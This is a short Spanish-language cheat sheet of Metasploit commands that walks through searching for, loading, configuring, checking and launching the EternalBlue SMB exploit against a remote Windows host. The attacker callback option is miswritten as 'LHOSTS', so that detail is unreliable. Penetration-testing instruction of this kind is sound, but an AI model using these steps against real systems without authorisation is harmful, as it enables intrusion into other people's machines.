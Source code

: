 ## Comandos de metasploit

Iniciar metasploit

	msfconsole

Buscar un exploit una vez identificado la vulnerabilidad

	search exploit [VULNERABILITY]
	search exploit eternalblue

Usar el exploit, poniendo el full path

	use [PATH]
	use exploit/windows/smb/ms17_010_psexec

Ver las opciones disponibles antes de ejecutar el exploit

	show options

Establecer el equipo remoto el cual se va a atacar

	set RHOSTS [IP]	
	set RHOSTS 192.168.122.1

Establecer el equipo local el cual va a realizar el ataque, puede ser la interface

	set LHOSTS [IP]	
	set LHOSTS 192.168.122.10
	set LHOSTS tun0

Chequear si el equipo remoto el cual vamos a atacar es vulnerable

	check

Ejecutar el exploit, cualquiera de las dos opciones

	run
	exploit

	
